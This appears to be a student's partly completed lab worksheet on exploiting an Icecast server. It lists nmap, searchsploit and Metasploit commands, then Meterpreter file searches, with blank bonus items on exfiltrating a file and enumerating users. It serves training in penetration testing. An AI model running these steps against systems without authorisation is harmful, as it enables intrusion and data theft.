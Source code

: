 1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap <ip> -sV -O -A` I'll use `-A` since i don't fear detection of a scan in this case
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit icecast`

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: `msfconsole`
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: `search icecast`
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: `use exploit/windows/http/icecast_header` why use numbers instead of tab autocomplete?
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: `show options` `set rhost 192.168.0.20` `show options`
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: `exploit`
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f secretfile.txt`
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer:  
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: 
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer:
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: 
 
C. Run the command that displays the target's computer system information:

   > Answer: 
